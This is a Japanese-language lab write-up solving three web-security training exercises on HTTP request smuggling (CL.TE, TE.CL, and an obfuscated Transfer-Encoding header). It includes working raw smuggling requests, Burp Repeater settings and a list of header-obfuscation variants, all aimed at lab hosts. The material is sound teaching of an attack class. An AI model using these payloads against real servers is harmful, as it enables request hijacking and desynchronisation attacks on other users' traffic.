# HTTP Request Smuggling
- [HTTP Request Smuggling](#http-request-smuggling)
  - [HTTP request smuggling, basic CL.TE vulnerability](#http-request-smuggling-basic-clte-vulnerability)
    - [Goal](#goal)
    - [Analyze](#analyze)
    - [Exploit](#exploit)
  - [HTTP request smuggling, basic TE.CL vulnerability](#http-request-smuggling-basic-tecl-vulnerability)
    - [Goal](#goal-1)
    - [Analyze](#analyze-1)
  - [Exploit](#exploit-1)
  - [HTTP request smuggling, obfuscating the TE header](#http-request-smuggling-obfuscating-the-te-header)
    - [Goal](#goal-2)
    - [Analyze \&\& Exploit](#analyze--exploit)

## HTTP request smuggling, basic CL.TE vulnerability

### Goal

Front-endとBack-endにサーバがあり、Front-endはTransfer-Encodingをサポートしておらず、GET. POSTを使用していないリクエストを拒否する。

クリア条件は、Back-endサーバが処理するリクエストが`GPOST`を使用しているように勘違いさせる。

### Analyze

`/`に対してリクエストを送ってみます。

defaultではGETです。

```text
GET / HTTP/2
Host: 0a0b00c20372a9bb839e5a5d006600ab.web-security-academy.net
Cookie: session=ENeUABQ9T7b9DFpvrpH3dnAc4P13LPhl
<redacted>

```

このリクエストは、POSTにしても同一の結果を得ることができます。

```text
POST / HTTP/2
Host: 0a0b00c20372a9bb839e5a5d006600ab.web-security-academy.net
Cookie: session=ENeUABQ9T7b9DFpvrpH3dnAc4P13LPhl
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
<redcated>


```

まずは、前提条件である`GET/POST`以外のリクエストを受け付けていないということを確認しておきます。



次に、Front-endはTransfer-Encodingをサポートしていないという条件を考えていきます。

HTTP/1では、`Content-Length`と`Transfer-Encoding`が同時にある場合、Content-Lengthを無視することで競合を回避しようとします。

Front-endがTransfer-Encodingをサポートしていないということは、Content-Legthを見ることになりますが、Back-endではTransfer-Encodingを見るはずです。


なんとなく方針が決まりました。

1. Front-endにすべてのメッセージをBack-endに転送させる
2. Back-endにはある位置箇所で区切るようにさせる。



コレによりリクエストが分割され後続リクエストの先頭にGが付きます。

### Exploit

```text
POST / HTTP/1.1
Host: 0ab700ee0357e6748519032700d100f2.web-security-academy.net
Cookie: session=g85hmwmJrWvKjtQESh1FzJJzvumQfPoT
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

このリクエストを複数回送るとクリアできるはずです。



## HTTP request smuggling, basic TE.CL vulnerability

### Goal
これもGPOSTにすればﾖｼです。

### Analyze

Front-endがTransfer-Encodingをサポートしていて、Back-endがTransfer-Encodingをサポートしていないラボです。

つまり、Transfer-EncodingですべてのRequest本文をBack-endに転送させ、Content-Lengthを利用してBack-endの解釈をいじり分割すれば良さそうです。

`request例`
```text
POST / HTTP/1.1
Host: 0a3d002704a22ff480ae352b0080000e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Transfer-Encoding: chunked

9e
GPOST / HTTP/1.1
Host: 0a3d002704a22ff480ae352b0080000e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

body=
0

```

こうすることで以下のような解釈になります




Back-endにはすべてのリクエストメッセージが転送されますがBack-endはTransfer-EncodingをサポートしていないためContent-Lengthを見ることになります。

つまり、以下のような解釈をします。



コレにより、`GPOST / ...`が宙に浮き皇族のリクエストとして扱われるため`GPOST`となります。

## Exploit

攻撃を通すためにいくつかの設定を行いましょう。

まずはInspectorで`HTTP/2` -> `HTTP/1.1`にします。

次に、`Burp > Repeater > Message modification`の`Update cntent length`のチェックをOFFにします。

こうしないとContent-Lengthが自動的に更新されうまく行きません。

```text
POST / HTTP/1.1
Host: 0a3d002704a22ff480ae352b0080000e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5d
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

body=
0


```




## HTTP request smuggling, obfuscating the TE header

### Goal

前回と同じ

### Analyze && Exploit

どちらも`Transfer-Encoding: chunked`を認識できてしまうため、`Transfer-Encoding: chunked`をいい感じにしてどちらかが解釈できないようにする必要があります。

まずはFront-Endが難読化を施したTransfer-Encodingを認識できない場合を考えてみます。

これはつまりFront-Endは、Content-Lengthを見るということです。



上記画像の状況ということになるが、この場合Conent-LengthをみてすべてのリクエストBodyがBack-endに飛ばされる。

Back-endでは、Transfer-Encodingをみるため以下のようになる。




とりあえずちまちまやっていくしかなさそう。


難読化の例としては以下がある。
```text
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```


これらをすべて試す必要がありそう。

- xchunked
  - 変化なし
- Transfer-Encoding : chunked
  - 変化なし
- Transfer-Encoding: chunked\r\nTransfer-Encoding: x
  - 500 Error


```
POST / HTTP/1.1
Host: 0a4d00d603ce8c8c80c1a37600a80067.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
Transfer-Encoding: x

0

G
```

こうした時500 Errorになりました

なんとなく怪しいので`CL.TE`ではなく`TE.CL`もみてみます





うまく行きました。

```text
POST / HTTP/1.1
Host: 0a4d00d603ce8c8c80c1a37600a80067.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x

5e
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

body=
0


```



